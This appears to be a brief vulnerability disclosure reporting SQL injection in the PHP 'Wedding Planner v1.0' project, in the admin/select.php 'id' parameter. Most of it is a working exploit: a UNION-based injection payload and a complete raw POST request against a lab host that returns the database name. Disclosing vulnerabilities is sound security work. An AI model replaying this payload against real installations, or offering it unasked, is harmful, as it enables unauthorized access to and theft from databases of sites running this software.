 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: shark007

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/admin/select.php

Vulnerability location: /Wedding-Management-PHP/admin/select.php&id

[+] Payload: id=-1 union select 1,2,database(),4--+

dbname = dbwedding

```sql
POST /Wedding-Management-PHP/admin/select.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

id=-1 union select 1,2,database(),4--+
```

![image](https://user-images.githubusercontent.com/54017627/183276922-ee23acdf-9ce3-4f4c-9ac9-61b2db74e4d8.png)

